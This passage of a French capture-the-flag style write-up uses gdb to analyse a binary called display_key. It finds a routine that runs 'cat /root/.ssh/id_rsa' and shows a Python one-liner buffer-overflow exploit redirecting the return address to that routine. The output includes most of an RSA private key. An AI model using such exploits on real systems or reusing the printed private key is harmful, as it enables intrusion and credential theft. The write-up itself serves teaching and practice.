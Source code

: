 On remarque dans l'algorithme que *reboot* est lancé si à la saisie du mot de passe counter valait 2.  

La saisie de *"S3cr3t!"* n'apporte malheureusement pas grand-chose :(  

Si le précédent programme (`loki_server`) avait encore des anciennes fonctions, celui-ci n'est peut-être pas terminé...  

Dans tous les cas, on voit cette fois la chaine "reboot" à l'adresse 0x80ab42c.  

Si on cherche les chaines autour de *reboot* :  

```
(gdb) x/10s 0x80ab400
0x80ab400:      "\003"
0x80ab402:      ""
0x80ab403:      ""
0x80ab404:      "\001"
0x80ab406:      "\002"
0x80ab408:      "cat /root/.ssh/id_rsa"
0x80ab41e:      "rt"
0x80ab421:      "counter"
0x80ab429:      "w+"
0x80ab42c:      "reboot"
```

On utilise une super fonctionnalité de gdb pour savoir si l'adresse de `cat /root/.ssh/id_rsa` est utilisée dans le code :  

```
(gdb) find /b 0x8048000,  0x8048fff, 0x08, 0xb4, 0x0a, 0x08
0x804825d
1 pattern found.
(gdb) x/7i 0x804825d-9
   0x8048254:	push   %ebp
   0x8048255:	mov    %esp,%ebp
   0x8048257:	sub    $0x18,%esp
   0x804825a:	movl   $0x80ab408,(%esp)
   0x8048261:	call   0x80493a0
   0x8048266:	leave  
   0x8048267:	ret
```

On peut exploiter le buffer overflow et mettant comme adresse de retour l'adresse du *movl* :  

```console
$ python -c 'print "\x5a\x82\x04\x08"*30' | ./display_key

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA4He7ENfrx9lqrkrxy8+1EmRgrg6tfB1NtI0ODDQN5vg3EH+k
d3H/+oD+PHRBd+cClnV24Z82QbdJAPkb2VZYI2OGNrxWiRnoVaRw4XN80WH21+Am
Jvme6DeiS7UYHr/kn+J6/KNmjRrSwxPegHCZsqY8qn06J+++rZQujazmt6ABP2wU
lLGL9iCQO2G92xchMLRXcsBln8XEkTJ90TaNp6bJwdlzZbYV3m/hbco7mybHhQBE
eA9HCvY6d2upFyKUxMzQ3RyZRcabf8PoOLL5QFPRSVXmdnfDfF/7GJkWXWr4mLmW
VB0pcdVTBMI0Am7llHbv0hlI0QdooH/QkmdB8QIDAQABAoIBAQDbn+qVaV6WFMGP
tV5t11XIoBQEWfIenSFZhiX3hLsRgU2HRAysngsilDGs/ubLpWjfxCDEUx4oIGg6
noJEHXpxbcB1L8PPs1yi5xlXTcMTrzFxOSy7N8PmXADc6FyoQYM1eMhzBoGhkFwl
aPxsWT/ZD1QOUCalyqqbdYAzOLgpcnx9YfegakskOMeqlLCUd8P4cs5sHt3yfauf
nhaXmO7HivMn+p61P5oorAuQcgHjWlggMrFVo9yUIsx7/D8lD7v2wKSIbMIGxSnd
smiuWwI3sddy4ztRXgEItFqsFVdmdbjKY6AiqaK3TUvxAwnin+eD0+/GZaCImmU9
DCSQlOiNAoGBAPO0Lave7NT5ikvQAVXZKFozOt219CWg8bot/YeCd2F94SRD2jQ6
cWv/gx2Kg0qnC+STbE733jKb8Y05u5cU86DfBZ8W0c5RtYijq7Hhjul3IrTs0EqQ
HI+DoS2MYTTVNXfpWFhQhevXi/bmFFBbLTtZlDJkeTB2RYuSkq2K1P/fAoGBAOvL
FlaHBs0yqtgbLWM/gUgwYKjlKLxoKdLA2BVz+Bj8csA/wOpxwm6lxBIJIEc34sW9
2qYk2LNndplrgDSwSxQdG/2F0aPLZmxP+IUIupL4kYyCzjyQjUf6dudSCLe6rO6h
HA+kWcoKgLp8OTrZ4lDOlH3u09P3DJeulH0fHLgvAoGAVUoBkdz61a5fkBjD3t+Z
F7hGKcG8KE8jSh0+VWZ7kUsUuDRm8VBi0YEiyfvn5wB/UQenKBvnT57z8pD57e4P
NYXX2c2Kr8I43hEpzZ86/MoNA3S9kNrOpAtVJTOz8WGMzOKFYKMNu3Q8L7Rl95lx
QwweqWQwZZ1+yVIKs2GbGdECgYEA3Repk2q6wu+OaGJbVaN3SsQp7lQptTgKd1Zh
```
